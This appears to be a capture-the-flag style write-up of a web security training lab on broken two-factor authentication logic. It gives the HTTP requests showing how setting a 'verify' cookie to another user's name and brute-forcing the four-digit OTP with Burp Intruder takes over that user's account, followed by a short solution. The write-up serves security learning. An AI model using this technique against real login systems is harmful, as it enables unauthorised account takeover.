 # Lab: 2FA broken logic
## Description

The auth flow consisted of the following steps:

1. User/Pass login
```yaml
POST /login HTTP/1.1
Host: ace51f141e5e278ac05621f6008b0019.web-security-academy.net

username=wiener&password=peter
```
Which would result in two cookies being set. Giving `wiener` a session that's considered to be "authenticated" by the app.
```yaml
HTTP/1.1 302 Found
Location: /login2
Set-Cookie: verify=wiener; HttpOnly
Set-Cookie: session=Uq28sKJbpzzbUeurwP0RLZ4eHC0EmDFT; Secure; HttpOnly; SameSite=None
```
2. The user would then be redirected to `/login2` that once triggered will send the OTP code to the user's email.  (modifying the `verify` username didn't do anything)
```yaml
GET /login2 HTTP/1.1
Host: ace51f141e5e278ac05621f6008b0019.web-security-academy.net
Cookie: verify=wiener; session=Uq28sKJbpzzbUeurwP0RLZ4eHC0EmDFT

```
3. Next we need to submit (POST) the OTP code to `/login2`. When submitting the correct code using `verify=wiener` the app would return a valid session token. When attempting to use `carlos` instead, a new session token was issued, but the OTP was rejected and the session token didn't grant access to Carlos' account.
4. I then attempted to brute-force the OTP using Burp Intruder:
```yaml
POST /login2 HTTP/1.1
Host: ace51f141e5e278ac05621f6008b0019.web-security-academy.net
Cookie: verify=carlos; session=Uq28sKJbpzzbUeurwP0RLZ4eHC0EmDFT

mfa-code=§1167§
```
Intruder was configured to enumerate all numbers between 0000-9999. 

The application didn't have any brute-force protection in place, so this wasn't hard and eventually resulted in hitting the correct OTP code and as a result a valid session token for carlos' account was issued.

## Solution
1. Login as wiener
2. Brute force the OTP code for carlos by setting the cookie to  `verify=carlos` as follows and wait for a 302 response with a valid session token for Carlos:
```yaml
POST /login2 HTTP/1.1
Cookie: verify=carlos; session=Uq28sKJbpzzbUeurwP0RLZ4eHC0EmDFT
Content-Length: 13

mfa-code=1259
```